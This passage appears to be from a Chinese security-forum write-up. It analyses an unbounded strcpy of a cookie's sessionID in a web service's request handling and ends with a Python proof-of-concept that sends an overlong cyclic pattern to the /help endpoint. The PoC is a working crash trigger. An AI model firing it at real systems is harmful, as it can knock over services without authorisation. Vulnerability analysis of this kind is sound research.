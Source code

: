  

![](https://bbs.pediy.com/upload/attach/202108/793907_64U3WRWYFPPB5BJ.png)

 

overflow_back2 里判断 cookie 不为空后进入 overflow_back1

 

![](https://bbs.pediy.com/upload/attach/202108/793907_N8MUJCWW5V46F2T.png)

 

然后就是检索 cookie 是否包含 sessionID，包含的话，将其以空格分隔后，传入 overflow 函数

 

![](https://bbs.pediy.com/upload/attach/202108/793907_BXATSZ9JD4ATFUC.png)

 

overflow 函数中形参 a2 指向空字符，所以其实最后就是未限制 sessionID 长度在 strcpy 时的溢出。

 

![](https://bbs.pediy.com/upload/attach/202108/793907_FFNRJVEJVPREB4X.png)

 

POC 如下：

```
from pwn import *
import requests
import urllib3
import sys
 
url = sys.argv[1]
 
if url[-1:]=='/':
   url=url[:-1]
 
cmd="aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac"
 
payload = "sessionID="+cmd
 
urllib3.disable_warnings()
 
url= url+"/help"
head= {'Cookie':payload}
r=requests.get(url,headers=head,verify=False)
 
print(r)
print(r.text)
print(r.content)

```
